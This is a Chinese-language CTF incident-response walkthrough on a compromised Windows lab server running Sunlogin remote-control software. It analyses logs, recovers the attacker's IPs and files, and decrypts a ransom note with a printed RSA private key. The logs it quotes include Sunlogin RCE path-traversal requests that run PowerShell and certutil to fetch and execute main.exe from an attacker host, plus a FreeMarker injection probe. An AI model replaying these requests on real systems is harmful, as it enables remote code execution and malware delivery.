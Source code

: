 # 第四章 windows 实战 - 向日葵

## 1

> 通过本地 PC RDP 到服务器并且找到黑客首次攻击成功的时间为 为多少, 将黑客首次攻击成功的时间为 作为 FLAG 提交 (2028-03-26 08:11:25.123)

使用 rdp 登录到服务器，定位到向日葵的日志目录

```plaintext
C:\Program Files\Oray\SunLogin\SunloginClient\log
```

![img](img/image_20241000-230046.png)

将日志文件提取出来进行分析，在其中找到以下记录

```log title="sunlogin_service.20240321-191046.log"
2024-03-21 19:54:46.097 - Info  - [service][TcpAcceptor] new acceptor 192.168.31.45:63976-->192.168.31.114:49724
2024-03-21 19:54:53.054 - Info  - [service][TcpAcceptor] new acceptor 192.168.31.45:57945-->192.168.31.114:49724
2024-03-21 19:54:56.066 - Info  - [service][TcpAcceptor] new acceptor 192.168.31.45:58485-->192.168.31.114:49724
2024-03-21 19:54:56.066 - Info  - [Acceptor][HTTP] new RC HTTP connection 192.168.31.45:58485, path: /, version: HTTP/1.1
2024-03-21 19:54:56.066 - Info  - [Acceptor][HTTP] new RC HTTP connection 192.168.31.45:58485,/, plugin:, session:
2024-03-21 19:54:56.086 - Info  - [service][TcpAcceptor] new acceptor 192.168.31.45:58494-->192.168.31.114:49724
2024-03-21 19:54:56.086 - Info  - [Acceptor][HTTP] new RC HTTP connection 192.168.31.45:58494, path: /jbossmq-httpil/HTTPServerILServlet, version: HTTP/1.1
2024-03-21 19:54:56.086 - Info  - [Acceptor][HTTP] new RC HTTP connection 192.168.31.45:58494,/jbossmq-httpil/HTTPServerILServlet, plugin:jbossmq-httpil, session:
2024-03-21 19:54:56.086 - Info  - [service][TcpAcceptor] new acceptor 192.168.31.45:58495-->192.168.31.114:49724
2024-03-21 19:54:56.086 - Info  - [Acceptor][HTTP] new RC HTTP connection 192.168.31.45:58495, path: /catalog-portal/ui/oauth/verify?error=&deviceUdid=%24%7b"freemarker%2etemplate%2eutility%2eExecute"%3fnew%28%29%28"id"%29%7d, version: HTTP/1.1
2024-03-21 19:54:56.086 - Info  - [Acceptor][HTTP] new RC HTTP connection 192.168.31.45:58495,/catalog-portal/ui/oauth/verify?error=&deviceUdid=%24%7b"freemarker%2etemplate%2eutility%2eExecute"%3fnew%28%29%28"id"%29%7d, plugin:catalog-portal, session:
```

很明显的目录扫描的行为

并在后续日志中找到以下 Path

```log
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+whoami
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+pwd
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+certutil+-urlcache+-split+-f+http%3A%2F%2F192.168.31.249%2Fmain.exe
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+certutil+-urlcache+-split+-f+http%3A%2F%2F192.168.31.249%2Fmypublic.pem
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+echo+647224830+%3E+qq.txt
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+.%2Fmain.exe
```

解码处理得到

```log
/check?cmd=ping../../../../../../../../../windows/system32/WindowsPowerShell/v1.0/powershell.exe whoami
/check?cmd=ping../../../../../../../../../windows/system32/WindowsPowerShell/v1.0/powershell.exe pwd
/check?cmd=ping../../../../../../../../../windows/system32/WindowsPowerShell/v1.0/powershell.exe certutil -urlcache -split -f http://192.168.31.249/main.exe
/check?cmd=ping../../../../../../../../../windows/system32/WindowsPowerShell/v1.0/powershell.exe certutil -urlcache -split -f http://192.168.31.249/mypublic.pem
/check?cmd=ping../../../../../../../../../windows/system32/WindowsPowerShell/v1.0/powershell.exe echo 647224830 > qq.txt
/check?cmd=ping../../../../../../../../../windows/system32/WindowsPowerShell/v1.0/powershell.exe ./main.exe
```

很明显的向日葵 RCE 漏洞，攻击者第一次执行 `whoami` 的时间就是答案

```flag
flag{2024-03-26 10:16:25.585}
```

## 2

> 通过本地 PC RDP 到服务器并且找到黑客攻击的 IP 为多少, 将黑客攻击 IP 作为 FLAG 提交

上一题中，向日葵的连接日志中就有

```flag
flag{192.168.31.45}
```

## 3

> 通过本地 PC RDP 到服务器并且找到黑客托管恶意程序 IP 为, 将黑客托管恶意程序 IP 作为 FLAG 提交

在第一题中，分析的攻击者执行的命令

```bash
whoami
pwd
certutil -urlcache -split -f http://192.168.31.249/main.exe
certutil -urlcache -split -f http://192.168.31.249/mypublic.pem
echo 647224830 > qq.txt
./main.exe
```

即可确定答案

```flag
flag{192.168.31.249}
```

## 4

> 找到黑客解密 DEC 文件, 将黑客 DEC 文件的 md5 作为 FLAG 提交

上传 `everything.exe` 执行文件搜索，得到以下结果

```plaintext
C:\Windows\System32\qq.txt
C:\Windows\System32\mypublic.pem
C:\Windows\System32\main.exe
```

将三个文件下载到本地进行分析，但是没有有价值信息

:::warning

这一题有一点脑洞

:::

在 `qq.txt` 中，得到这个数字 `647224830`

这个号码指向玄机的 QQ 群，在群文件中找到

![img](img/image_20241030-233019.png)

下载下来计算文件哈希即可

```flag
flag{5ad8d202f80202f6d31e077fc9b0fc6b}
```

## 5

> 通过本地 PC RDP 到服务器并且解密黑客勒索软件, 将桌面加密文件中关键信息作为 FLAG 提交

将桌面上的 `baoleiji.txt.banana` 文件下载到本地

```plaintext
N2xTZ2Bsn2Y5lve7KZ36bgsFjqncBs55VO0zkeEIr5Iga/kbegA0BAstotBWnZ16+trNfkzl3apUobodMkC8covEo22p+kWAyVjMRyJ98EQ4Pspr/Y5HIuH0xuvPa82j7b0AMJHkyd2viuymI/mrxjJk2X0xlEE4YVioMLd22+w=

Your files have been encrypted

0sWK8adKSGh1Xaxo6n1mZFoyNDYVokXwkBhxnzxU+MEJIV44u48SdOiFzWLn849hObaP6z26lLtMnXaDUnAPuMh+nF2hw9RoAsur7KYxE8/iY/y4jOEBsHT5wvQldcNfntrDyMUCvrWTUHl2yapUmaIIf2rZsNsqMVJ9puZzp58+FJmulyC7R1C2yoP1jHhsdOkU7htbzUWWsm2ybL+eVpXTFC+i6nuEBoAYhv2kjSgL8qKBFsLKmKQSn/ILRPaRYDFP/srEQzF7Y4yZa4cotpFTdGUVU547Eib/EaNuhTyzgOGKjXl2UYxHM/v0c3lgjO7GDA9eF3a/BBXPAgtK126lUfoGK7iSAhduRt5sRP4=
```

执行RSA解密

:::warning

需要注意的是，pem文件内的证书结构头有问题，需要改为以下形式

```plaintext
-----BEGIN RSA PRIVATE KEY-----
MIICXQIBAAKBgQDWQqpkHRKtRu66MjTrNZC13A6rIlGaJBd/FYBy4ifiITasCnQE
J9aRTIYQsM5iincecnvY8xGYMg5pVTp6P4fxS4/+1bAEciRXSTCmLI8FeDd3sjOc
HTw82sG0hfnnb0b/LFhbOCk7BgLnpwvSy5za/dtVQFSDbQbQuTBp029AKwIDAQAB
AoGBAKh6952NtvgGhQZpIG+sSUSX6/jqHZzFsKw/7idoatBIKcOS3LO/19udfvZ0
8XVPSGfqwjRQvo8dHXP6juc+Odg1XOLPw4fjjJz9b9dLKCKwtIU3CwA1AmuhYNGp
1OXlHLyUaNVTN3TZN9Dn7txD4gOvLIirqbmhzy/N7PdPF5ThAkEA4MB++5DSY7Kv
MO1uHuxTr/jRy6754Mzgo0fpLBXSB13/nLMxRA6QEbigoAFpsFd36EYMKzftbezB
gx2nphvLUwJBAPQMv730MqCWjaCPLgYRV+oMU6OnOMs6+ALql+I1eVqVfBAt+5De
HMxY7mWdaR9pofzuz+6KkmwRHqKSVw45dMkCQFJ68l76B+vkoFxxVe9tRU0YIE4C
mdtA9NOXSWAPZfOkMHFeZZ8XRRHr0q7FtfasMuoAAuk9bhngQCgREvxnyNcCQGnt
trQecHMfpe2Q+CsOEBi4rP0VsiMUP14UsUQwbbIRvD3Rl6WzotBXsXJNtrk5wmPk
zD//ybo6XA+4cSztZ3ECQQC92ck1XJm7V12SOFqHcNXFoS8tFvgNQXNEahmhJ2wb
xTo0VwUhCeG1n8X5PqRn6Rcsh8YQAt924YrWtcTxrg8g
-----END RSA PRIVATE KEY-----
```

:::

![img](img/image_20241038-233807.png)

继续下一步解密

![img](img/image_20241043-234344.png)

编码存在有一定问题，换一个在线工具就行

![img](img/image_20241049-234958.png)

即可得到答案

```flag
flag{EDISEC_15c2e33e-b93f-452c-9523-bbb9e2090cd1}
```
